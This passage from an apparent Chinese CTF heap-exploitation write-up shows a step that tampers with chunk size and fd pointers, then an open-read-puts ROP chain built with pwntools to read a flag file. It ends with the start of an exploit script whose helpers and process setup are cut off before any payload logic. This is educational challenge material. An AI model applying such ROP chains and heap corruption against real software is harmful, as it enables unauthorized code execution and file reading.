 然后改变一下size和fd指针

[![](assets/1701612363-4e7334d17f48473032150d16e6320633.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213158-fc1d1194-19a5-1.png)

```plain
add(0x80,'aaaa')

flag_addr = stack_addr
ppp=stack_addr+0x200
pl=b'./flag\x00\x00'
pl+=p64(pop_rdi_ret) + p64(flag_addr) + p64(pop_rsi_ret) + p64(0) + p64(open_addr)
pl+=p64(pop_rdi_ret) + p64(3) + p64(pop_rsi_ret) + p64(ppp) + p64(pop_rdx_ret) + p64(0x50) + p64(read_addr)
pl+=p64(pop_rdi_ret) + p64(ppp) + p64(puts_addr)
add(0x80, pl)
```

然后打个orw就行了  
成功读取我写入本地文件夹中的flag

[![](assets/1701612363-daedef011179d1c950399ed8b42f4005.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213221-099a9a62-19a6-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
#p=remote('node4.anna.nssctf.cn',28107)
elf = ELF('./pwn')
libc=ELF('./libc.so.6')
#libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def duan():
    gdb.attach(p)
    pause()
```